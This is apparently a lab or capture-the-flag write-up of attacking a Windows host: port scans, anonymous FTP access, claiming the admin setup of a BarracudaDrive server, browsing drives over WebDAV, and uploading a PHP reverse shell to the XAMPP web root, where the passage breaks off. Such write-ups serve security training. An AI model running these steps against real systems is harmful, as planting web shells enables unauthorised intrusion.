






As always, I initiated the machine engagement with a comprehensive scan of all 65,535 TCP ports, followed by a targeted service scan of the identified ports. Finally, I performed a UDP scan of the top 10 ports.
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -Pn -n --open --min-rate 3000 -p-
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-29 02:53 UTC
Nmap scan report for 192.168.232.127
Host is up (0.056s latency).
Not shown: 65474 closed tcp ports (reset), 43 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE
135/tcp open msrpc
139/tcp open netbios-ssn
445/tcp open microsoft-ds
3306/tcp open mysql
5040/tcp open unknown
7680/tcp open pando-pub
8000/tcp open http-alt
30021/tcp open unknown
33033/tcp open unknown
44330/tcp open unknown
45332/tcp open unknown
45443/tcp open unknown
49664/tcp open unknown
49665/tcp open unknown
49666/tcp open unknown
49667/tcp open unknown
49668/tcp open unknown
49669/tcp open unknown
Nmap done: 1 IP address (1 host up) scanned in 17.32 seconds
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sC -sV -p 135,139,445,3306,5040,7680,8000,30021,33033,44330,45332,45443,49664-49669
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-29 02:55 UTC
Nmap scan report for 192.168.232.127
Host is up (0.052s latency).
PORT STATE SERVICE VERSION
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds?
3306/tcp open mysql MariaDB 10.3.24 or later (unauthorized)
5040/tcp open unknown
7680/tcp closed pando-pub
8000/tcp open http-alt BarracudaServer.com (Windows)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: BarracudaServer.com (Windows)
|_http-title: Home
| http-methods:
|_ Potentially risky methods: PROPFIND PUT COPY DELETE MOVE MKCOL PROPPATCH LOCK UNLOCK
| http-webdav-scan:
| WebDAV type: Unknown
| Allowed Methods: OPTIONS, GET, HEAD, PROPFIND, PUT, COPY, DELETE, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK
| Server Type: BarracudaServer.com (Windows)
|_ Server Date: Thu, 29 Jan 2026 02:58:04 GMT
| fingerprint-strings:
| FourOhFourRequest, Socks5:
| HTTP/1.1 200 OK
| Date: Thu, 29 Jan 2026 02:55:36 GMT
| Server: BarracudaServer.com (Windows)
| Connection: Close
| GenericLines, GetRequest:
| HTTP/1.1 200 OK
| Date: Thu, 29 Jan 2026 02:55:31 GMT
| Server: BarracudaServer.com (Windows)
| Connection: Close
| HTTPOptions:
| HTTP/1.1 200 OK
| Date: Thu, 29 Jan 2026 02:55:41 GMT
| Server: BarracudaServer.com (Windows)
| Connection: Close
| RTSPRequest:
| HTTP/1.1 200 OK
| Date: Thu, 29 Jan 2026 02:55:42 GMT
| Server: BarracudaServer.com (Windows)
| Connection: Close
| SIPOptions:
| HTTP/1.1 400 Bad Request
| Date: Thu, 29 Jan 2026 02:56:45 GMT
| Server: BarracudaServer.com (Windows)
| Connection: Close
| Content-Type: text/html
| Cache-Control: no-store, no-cache, must-revalidate, max-age=0
|_ <html><body><h1>400 Bad Request</h1>Can't parse request<p>BarracudaServer.com (Windows)</p></body></html>
30021/tcp open ftp FileZilla ftpd 0.9.41 beta
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -r--r--r-- 1 ftp ftp 536 Nov 03 2020 .gitignore
| drwxr-xr-x 1 ftp ftp 0 Nov 03 2020 app
| drwxr-xr-x 1 ftp ftp 0 Nov 03 2020 bin
| drwxr-xr-x 1 ftp ftp 0 Nov 03 2020 config
| -r--r--r-- 1 ftp ftp 130 Nov 03 2020 config.ru
| drwxr-xr-x 1 ftp ftp 0 Nov 03 2020 db
| -r--r--r-- 1 ftp ftp 1750 Nov 03 2020 Gemfile
| drwxr-xr-x 1 ftp ftp 0 Nov 03 2020 lib
| drwxr-xr-x 1 ftp ftp 0 Nov 03 2020 log
| -r--r--r-- 1 ftp ftp 66 Nov 03 2020 package.json
| drwxr-xr-x 1 ftp ftp 0 Nov 03 2020 public
| -r--r--r-- 1 ftp ftp 227 Nov 03 2020 Rakefile
| -r--r--r-- 1 ftp ftp 374 Nov 03 2020 README.md
| drwxr-xr-x 1 ftp ftp 0 Nov 03 2020 test
| drwxr-xr-x 1 ftp ftp 0 Nov 03 2020 tmp
|_drwxr-xr-x 1 ftp ftp 0 Nov 03 2020 vendor
|_ftp-bounce: bounce working!
| ftp-syst:
|_ SYST: UNIX emulated by FileZilla
33033/tcp open unknown
| fingerprint-strings:
| GenericLines:
| HTTP/1.1 400 Bad Request
| GetRequest, HTTPOptions:
| HTTP/1.0 403 Forbidden
| Content-Type: text/html; charset=UTF-8
| Content-Length: 3102
| <!DOCTYPE html>
| <html lang="en">
| <head>
| <meta charset="utf-8" />
| <title>Action Controller: Exception caught</title>
| <style>
| body {
| background-color: #FAFAFA;
| color: #333;
| margin: 0px;
| body, p, ol, ul, td {
| font-family: helvetica, verdana, arial, sans-serif;
| font-size: 13px;
| line-height: 18px;
| font-size: 11px;
| white-space: pre-wrap;
| pre.box {
| border: 1px solid #EEE;
| padding: 10px;
| margin: 0px;
| width: 958px;
| header {
| color: #F0F0F0;
| background: #C52F24;
| padding: 0.5em 1.5em;
| margin: 0.2em 0;
| line-height: 1.1em;
| font-size: 2em;
| color: #C52F24;
| line-height: 25px;
| .details {
|_ bord
44330/tcp open ssl/unknown
| ssl-cert: Subject: commonName=server demo 1024 bits/organizationName=Real Time Logic/stateOrProvinceName=CA/countryName=US
| Not valid before: 2009-08-27T14:40:47
|_Not valid after: 2019-08-25T14:40:47
|_ssl-date: 2026-01-29T02:58:32+00:00; 0s from scanner time.
45332/tcp open http Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)
|_http-title: Quiz App
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.3.23
| http-methods:
|_ Potentially risky methods: TRACE
45443/tcp open http Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)
| http-methods:
|_ Potentially risky methods: TRACE
|_http-title: Quiz App
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.3.23
49664/tcp open msrpc Microsoft Windows RPC
49665/tcp open msrpc Microsoft Windows RPC
49666/tcp open msrpc Microsoft Windows RPC
49667/tcp open msrpc Microsoft Windows RPC
49668/tcp open msrpc Microsoft Windows RPC
49669/tcp open msrpc Microsoft Windows RPC
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at <https://nmap.org/cgi-bin/submit.cgi?new-service> :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port8000-TCP:V=7.95%I=7%D=1/29%Time=697ACC23%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,72,"HTTP/1\\.1\\x20200\\x20OK\\r\\nDate:\\x20Thu,\\x2029\\x20Jan\\x20
SF:2026\\x2002:55:31\\x20GMT\\r\\nServer:\\x20BarracudaServer\\.com\\x20\\(Windows
SF:\\)\\r\\nConnection:\\x20Close\\r\\n\\r\\n")%r(GetRequest,72,"HTTP/1\\.1\\x20200\\
SF:x20OK\\r\\nDate:\\x20Thu,\\x2029\\x20Jan\\x202026\\x2002:55:31\\x20GMT\\r\\nServe
SF:r:\\x20BarracudaServer\\.com\\x20\\(Windows\\)\\r\\nConnection:\\x20Close\\r\\n\\r
SF:\\n")%r(FourOhFourRequest,72,"HTTP/1\\.1\\x20200\\x20OK\\r\\nDate:\\x20Thu,\\x2
SF:029\\x20Jan\\x202026\\x2002:55:36\\x20GMT\\r\\nServer:\\x20BarracudaServer\\.co
SF:m\\x20\\(Windows\\)\\r\\nConnection:\\x20Close\\r\\n\\r\\n")%r(Socks5,72,"HTTP/1\\
SF:.1\\x20200\\x20OK\\r\\nDate:\\x20Thu,\\x2029\\x20Jan\\x202026\\x2002:55:36\\x20GM
SF:T\\r\\nServer:\\x20BarracudaServer\\.com\\x20\\(Windows\\)\\r\\nConnection:\\x20C
SF:lose\\r\\n\\r\\n")%r(HTTPOptions,72,"HTTP/1\\.1\\x20200\\x20OK\\r\\nDate:\\x20Thu
SF:,\\x2029\\x20Jan\\x202026\\x2002:55:41\\x20GMT\\r\\nServer:\\x20BarracudaServer
SF:\\.com\\x20\\(Windows\\)\\r\\nConnection:\\x20Close\\r\\n\\r\\n")%r(RTSPRequest,72
SF:,"HTTP/1\\.1\\x20200\\x20OK\\r\\nDate:\\x20Thu,\\x2029\\x20Jan\\x202026\\x2002:55
SF::42\\x20GMT\\r\\nServer:\\x20BarracudaServer\\.com\\x20\\(Windows\\)\\r\\nConnect
SF:ion:\\x20Close\\r\\n\\r\\n")%r(SIPOptions,13C,"HTTP/1\\.1\\x20400\\x20Bad\\x20Re
SF:quest\\r\\nDate:\\x20Thu,\\x2029\\x20Jan\\x202026\\x2002:56:45\\x20GMT\\r\\nServe
SF:r:\\x20BarracudaServer\\.com\\x20\\(Windows\\)\\r\\nConnection:\\x20Close\\r\\nCo
SF:ntent-Type:\\x20text/html\\r\\nCache-Control:\\x20no-store,\\x20no-cache,\\x2
SF:0must-revalidate,\\x20max-age=0\\r\\n\\r\\n<html><body><h1>400\\x20Bad\\x20Req
SF:uest</h1>Can't\\x20parse\\x20request<p>BarracudaServer\\.com\\x20\\(Windows\\
SF:)</p></body></html>");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port33033-TCP:V=7.95%I=7%D=1/29%Time=697ACC23%P=x86_64-pc-linux-gnu%r(G
SF:enericLines,1C,"HTTP/1\\.1\\x20400\\x20Bad\\x20Request\\r\\n\\r\\n")%r(GetReque
SF:st,C76,"HTTP/1\\.0\\x20403\\x20Forbidden\\r\\nContent-Type:\\x20text/html;\\x2
SF:0charset=UTF-8\\r\\nContent-Length:\\x203102\\r\\n\\r\\n<!DOCTYPE\\x20html>\\n<h
SF:tml\\x20lang=\\"en\\">\\n<head>\\n\\x20\\x20<meta\\x20charset=\\"utf-8\\"\\x20/>\\n
SF:\\x20\\x20<title>Action\\x20Controller:\\x20Exception\\x20caught</title>\\n\\x
SF:20\\x20<style>\\n\\x20\\x20\\x20\\x20body\\x20{\\n\\x20\\x20\\x20\\x20\\x20\\x20backg
SF:round-color:\\x20#FAFAFA;\\n\\x20\\x20\\x20\\x20\\x20\\x20color:\\x20#333;\\n\\x20
SF:\\x20\\x20\\x20\\x20\\x20margin:\\x200px;\\n\\x20\\x20\\x20\\x20}\\n\\n\\x20\\x20\\x20\\
SF:x20body,\\x20p,\\x20ol,\\x20ul,\\x20td\\x20{\\n\\x20\\x20\\x20\\x20\\x20\\x20font-f
SF:amily:\\x20helvetica,\\x20verdana,\\x20arial,\\x20sans-serif;\\n\\x20\\x20\\x20
SF:\\x20\\x20\\x20font-size:\\x20\\x20\\x2013px;\\n\\x20\\x20\\x20\\x20\\x20\\x20line-h
SF:eight:\\x2018px;\\n\\x20\\x20\\x20\\x20}\\n\\n\\x20\\x20\\x20\\x20pre\\x20{\\n\\x20\\x2
SF:0\\x20\\x20\\x20\\x20font-size:\\x2011px;\\n\\x20\\x20\\x20\\x20\\x20\\x20white-spa
SF:ce:\\x20pre-wrap;\\n\\x20\\x20\\x20\\x20}\\n\\n\\x20\\x20\\x20\\x20pre\\.box\\x20{\\n\\
SF:x20\\x20\\x20\\x20\\x20\\x20border:\\x201px\\x20solid\\x20#EEE;\\n\\x20\\x20\\x20\\x
SF:20\\x20\\x20padding:\\x2010px;\\n\\x20\\x20\\x20\\x20\\x20\\x20margin:\\x200px;\\n\\
SF:x20\\x20\\x20\\x20\\x20\\x20width:\\x20958px;\\n\\x20\\x20\\x20\\x20}\\n\\n\\x20\\x20\\
SF:x20\\x20header\\x20{\\n\\x20\\x20\\x20\\x20\\x20\\x20color:\\x20#F0F0F0;\\n\\x20\\x2
SF:0\\x20\\x20\\x20\\x20background:\\x20#C52F24;\\n\\x20\\x20\\x20\\x20\\x20\\x20paddi
SF:ng:\\x200\\.5em\\x201\\.5em;\\n\\x20\\x20\\x20\\x20}\\n\\n\\x20\\x20\\x20\\x20h1\\x20{\\
SF:n\\x20\\x20\\x20\\x20\\x20\\x20margin:\\x200\\.2em\\x200;\\n\\x20\\x20\\x20\\x20\\x20\\
SF:x20line-height:\\x201\\.1em;\\n\\x20\\x20\\x20\\x20\\x20\\x20font-size:\\x202em;\\
SF:n\\x20\\x20\\x20\\x20}\\n\\n\\x20\\x20\\x20\\x20h2\\x20{\\n\\x20\\x20\\x20\\x20\\x20\\x20
SF:color:\\x20#C52F24;\\n\\x20\\x20\\x20\\x20\\x20\\x20line-height:\\x2025px;\\n\\x20
SF:\\x20\\x20\\x20}\\n\\n\\x20\\x20\\x20\\x20\\.details\\x20{\\n\\x20\\x20\\x20\\x20\\x20\\x
SF:20bord")%r(HTTPOptions,C76,"HTTP/1\\.0\\x20403\\x20Forbidden\\r\\nContent-Ty
SF:pe:\\x20text/html;\\x20charset=UTF-8\\r\\nContent-Length:\\x203102\\r\\n\\r\\n<!
SF:DOCTYPE\\x20html>\\n<html\\x20lang=\\"en\\">\\n<head>\\n\\x20\\x20<meta\\x20chars
SF:et=\\"utf-8\\"\\x20/>\\n\\x20\\x20<title>Action\\x20Controller:\\x20Exception\\x
SF:20caught</title>\\n\\x20\\x20<style>\\n\\x20\\x20\\x20\\x20body\\x20{\\n\\x20\\x20\\
SF:x20\\x20\\x20\\x20background-color:\\x20#FAFAFA;\\n\\x20\\x20\\x20\\x20\\x20\\x20c
SF:olor:\\x20#333;\\n\\x20\\x20\\x20\\x20\\x20\\x20margin:\\x200px;\\n\\x20\\x20\\x20\\x
SF:20}\\n\\n\\x20\\x20\\x20\\x20body,\\x20p,\\x20ol,\\x20ul,\\x20td\\x20{\\n\\x20\\x20\\x
SF:20\\x20\\x20\\x20font-family:\\x20helvetica,\\x20verdana,\\x20arial,\\x20sans-
SF:serif;\\n\\x20\\x20\\x20\\x20\\x20\\x20font-size:\\x20\\x20\\x2013px;\\n\\x20\\x20\\x
SF:20\\x20\\x20\\x20line-height:\\x2018px;\\n\\x20\\x20\\x20\\x20}\\n\\n\\x20\\x20\\x20\\
SF:x20pre\\x20{\\n\\x20\\x20\\x20\\x20\\x20\\x20font-size:\\x2011px;\\n\\x20\\x20\\x20\\
SF:x20\\x20\\x20white-space:\\x20pre-wrap;\\n\\x20\\x20\\x20\\x20}\\n\\n\\x20\\x20\\x20
SF:\\x20pre\\.box\\x20{\\n\\x20\\x20\\x20\\x20\\x20\\x20border:\\x201px\\x20solid\\x20#
SF:EEE;\\n\\x20\\x20\\x20\\x20\\x20\\x20padding:\\x2010px;\\n\\x20\\x20\\x20\\x20\\x20\\x
SF:20margin:\\x200px;\\n\\x20\\x20\\x20\\x20\\x20\\x20width:\\x20958px;\\n\\x20\\x20\\x
SF:20\\x20}\\n\\n\\x20\\x20\\x20\\x20header\\x20{\\n\\x20\\x20\\x20\\x20\\x20\\x20color:\\
SF:x20#F0F0F0;\\n\\x20\\x20\\x20\\x20\\x20\\x20background:\\x20#C52F24;\\n\\x20\\x20\\
SF:x20\\x20\\x20\\x20padding:\\x200\\.5em\\x201\\.5em;\\n\\x20\\x20\\x20\\x20}\\n\\n\\x20
SF:\\x20\\x20\\x20h1\\x20{\\n\\x20\\x20\\x20\\x20\\x20\\x20margin:\\x200\\.2em\\x200;\\n\\
SF:x20\\x20\\x20\\x20\\x20\\x20line-height:\\x201\\.1em;\\n\\x20\\x20\\x20\\x20\\x20\\x2
SF:0font-size:\\x202em;\\n\\x20\\x20\\x20\\x20}\\n\\n\\x20\\x20\\x20\\x20h2\\x20{\\n\\x20
SF:\\x20\\x20\\x20\\x20\\x20color:\\x20#C52F24;\\n\\x20\\x20\\x20\\x20\\x20\\x20line-he
SF:ight:\\x2025px;\\n\\x20\\x20\\x20\\x20}\\n\\n\\x20\\x20\\x20\\x20\\.details\\x20{\\n\\x
SF:20\\x20\\x20\\x20\\x20\\x20bord");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled but not required
| smb2-time:
| date: 2026-01-29T02:58:05
|_ start_date: N/A
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 189.45 seconds
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sU --top-ports 10
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-29 03:06 UTC
Nmap scan report for 192.168.232.127
Host is up (0.051s latency).
PORT STATE SERVICE
53/udp closed domain
67/udp closed dhcps
123/udp open|filtered ntp
135/udp closed msrpc
137/udp open|filtered netbios-ns
138/udp open|filtered netbios-dgm
161/udp closed snmp
445/udp closed microsoft-ds
631/udp closed ipp
1434/udp closed ms-sql-m
Nmap done: 1 IP address (1 host up) scanned in 8.37 seconds
SMB Null Authentication was denied. I confirmed with both smbclient and smbmap
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap $IP -sV --script=smb-enum-shares,smb-enum-users,vuln -p 139,445
Starting Nmap 7.95 ( <https://nmap.org> ) at 2026-01-29 03:32 UTC
Nmap scan report for 192.168.232.127
Host is up (0.049s latency).
PORT STATE SERVICE VERSION
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
445/tcp open microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_smb-vuln-ms10-061: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR
|_smb-vuln-ms10-054: false
|_samba-vuln-cve-2012-1182: Could not negotiate a connection:SMB: Failed to receive bytes: ERROR
Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 39.62 seconds
┌──(kali㉿kali)-[~/Desktop]
└─$ smbclient -N -L //$IP
session setup failed: NT_STATUS_ACCESS_DENIED
┌──(kali㉿kali)-[~/Desktop]
└─$ smbmap -H $IP
________ ___ ___ _______ ___ ___ __ _______
/" )|" \\ /" || _ "\\ |" \\ /" | /""\\ | __ "\\
(: \\___/ \\ \\ // |(. |_) :) \\ \\ // | / \\ (. |__) :)
\\___ \\ /\\ \\/. ||: \\/ /\\ \\/. | /' /\\ \\ |: ____/
__/ \\ |: \\. |(| _ \\ |: \\. | // __' \\ (| /
/" \\ :) |. \\ /: ||: |_) :)|. \\ /: | / / \\ \\ /|__/ \\
(_______/ |___|\\__/|___|(_______/ |___|\\__/|___|(___/ \\___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
<https://github.com/ShawnDEvans/smbmap>
[*] Detected 1 hosts serving SMB
[*] Established 1 SMB connections(s) and 0 authenticated session(s)
[!] Something weird happened on (192.168.232.127) Error occurs while reading from remote(104) on line 1015
[*] Closed 1 connections
The FTP service on port 30021 allowed Anonymous Login.
┌──(kali㉿kali)-[~/Desktop]
└─$ ftp $IP 30021
Connected to 192.168.232.127.
220-FileZilla Server version 0.9.41 beta
220-written by Tim Kosse (Tim.Kosse@gmx.de)
220 Please visit <http://sourceforge.net/projects/filezilla/>
Name (192.168.232.127:kali): anonymous
331 Password required for anonymous
Password:
230 Logged on
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
To facilitate easier enumeration, I downloaded all available FTP data; unfortunately, no sensitive information was found, leading me to shift my focus to the HTTP services.
┌──(kali㉿kali)-[~/Desktop/ftpshare]
└─$ wget -m --no-passive <ftp://anonymous:anonymous@$IP:30021>
The web page on port 8000 prompted me to create an administrator account, stating that the BarracudaDriver server would be inaccessible otherwise.



After successfully creating the administrator account, I explored the server and discovered a “Web-File Server” tab. This section detailed the WebDAV server and identified /fs as the direct link to the file server.

I attempted to access /fs using the cadaver utility. When prompted for credentials, I successfully authenticated using the administrator account I had previously created. The WebDAV server appeared to provide access to both the C: and D: drives.
┌──(kali㉿kali)-[~/Desktop]
└─$ cadaver <http://$IP:8000/fs>
Authentication required for Web File Server on server `192.168.232.127':
Username: wook
Password:
dav:/fs/> ls
Listing collection `/fs/': succeeded.
Coll: C 0 Jan 1 1970
Coll: D 0 Jan 1 1970
Recognizing a XAMPP environment, I navigated to C:/xamp/htdocs (the default web root for XAMPP) and confirmed the presence of index.html and other core web service files.
dav:/fs/> cd C
dav:/fs/C/> ls
Listing collection `/fs/C/': succeeded.
Coll: $Recycle.Bin 0 Nov 3 2020
Coll: $WinREAgent 0 Dec 2 2021
Coll: Documents and Settings 0 Oct 16 2020
Coll: FTP 0 Nov 3 2020
Coll: PerfLogs 0 Dec 7 2019
Coll: Program Files (x86) 0 Dec 2 2021
Coll: Program Files 0 Dec 2 2021
Coll: ProgramData 0 Dec 7 2021
Coll: RailsInstaller 0 Nov 3 2020
Coll: Recovery 0 Dec 2 2021
Coll: Ruby26-x64 0 Nov 3 2020
Coll: Sites 0 Nov 3 2020
Coll: System Volume Information 0 Oct 16 2020
Coll: Users 0 Dec 2 2021
Coll: Windows 0 Apr 8 2022
Coll: bd 0 Jan 29 03:38
Coll: xampp 0 Oct 16 2020
DumpStack.log.tmp 8192 Aug 3 2024
output.txt 2696 Jan 29 02:52
pagefile.sys 738197504 Aug 3 2024
swapfile.sys 268435456 Aug 3 2024
dav:/fs/C/xampp/> cd htdocs
dav:/fs/C/xampp/htdocs/> ls
Listing collection `/fs/C/xampp/htdocs/': succeeded.
index.html 887 Nov 3 2020
phpinfo.php 21 Nov 3 2020
script.js 3023 Nov 3 2020
styles.css 1266 Nov 3 2020
I observed that the web service running on port 45332 successfully loaded /phpinfo.php file that’s stored in the htdocs directory. Based on this, I theorized that I could upload a PHP reverse shell via WebDAV and trigger it by requesting the file through the web service on port 45332.

dav:/fs/C/xampp/htdocs/> put Ivan-Sincek.php
